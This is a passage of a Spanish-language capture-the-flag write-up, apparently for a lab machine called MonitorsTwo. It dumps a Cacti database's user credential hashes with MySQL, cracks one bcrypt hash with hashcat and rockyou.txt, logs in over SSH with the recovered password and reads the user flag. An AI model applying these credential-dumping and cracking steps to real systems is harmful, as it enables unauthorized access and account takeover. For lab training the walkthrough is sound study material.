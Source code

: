 ```bash
# mysql --host=db --user=root --password=root cacti -e "SELECT username, password FROM user_auth;"
username	password
admin	$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
guest	43e9a4ab75570f5b
marcus	$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C

```

Utilizando `hashcat` junto con el diccionario `rockyou.txt` se puede crackear el hash de marcus para iniciar sesion vía SSH.

```
$ hashcat -a 0 -m 3200 '$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C' /usr/share/wordlists/rockyou.txt  --show
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:funkymonkey

$ ssh marcus@10.10.11.211       
marcus@10.10.11.211's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-147-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 27 Sep 2023 10:11:37 PM UTC

  System load:                      0.0
  Usage of /:                       63.0% of 6.73GB
  Memory usage:                     17%
  Swap usage:                       0%
  Processes:                        229
  Users logged in:                  0
  IPv4 address for br-60ea49c21773: 172.18.0.1
  IPv4 address for br-7c3b7c0d00b3: 172.19.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.11.211
  IPv6 address for eth0:            dead:beef::250:56ff:feb9:22a1


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

You have mail.
Last login: Thu Mar 23 10:12:28 2023 from 10.10.14.40
marcus@monitorstwo:~$ cat user.txt
d9947b0eae40f1554a10eda3b4035f08
```
